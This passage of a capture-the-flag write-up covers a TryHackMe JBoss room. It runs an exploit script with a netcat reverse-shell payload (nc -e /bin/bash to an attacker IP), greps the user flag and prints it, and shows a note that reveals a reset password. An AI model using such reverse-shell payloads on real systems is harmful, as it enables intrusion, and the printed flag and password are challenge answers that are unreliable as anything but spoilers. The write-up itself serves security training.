 ```
kali@kali:~/CTFs/tryhackme/Tony the Tiger/jboss$ python exploit.py 10.10.179.44:8080 "nc -e /bin/bash 10.8.106.222 9001"
[*] Target IP: 10.10.179.44
[*] Target PORT: 8080
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Command executed successfully
```

## Task 6 Find User JBoss' flag!

Knowledge of the Linux (specifically Ubuntu/Debian)'s file system structure & permissions is expected. If you are struggling, I strongly advise checking out the fantastic [TryHackMe ZTHLinux Room](http://tryhackme.com/room/zthlinux) by [lollava](http://tryhackme.com/p/lollava).

1. This flag has the formatting of "THM{}"

```
pwd
/
cd /home
grep -R "THM{" * 2>/dev/null
jboss/.jboss.txt:THM{50c10ad46b5793704601ecdad865eb06}
jboss/.bash_history:echo "THM{50c10ad46b5793704601ecdad865eb06}" > jboss.txt
```

`THM{50c10ad46b5793704601ecdad865eb06}`

## Task 7 Escalation!

Normal boot-to-root expectations apply here! It is located in /root/root.txt. Get cracking :)

1. The final flag does not have the formatting of "THM{}"

```
cd jboss
pwd
/home/jboss
ls
note
cat note
Hey JBoss!

Following your email, I have tried to replicate the issues you were having with the system.

However, I don't know what commands you executed - is there any file where this history is stored that I can access?

Oh! I almost forgot... I have reset your password as requested (make sure not to tell it to anyone!)

Password: likeaboss

Kind Regards,
CMNatic
```
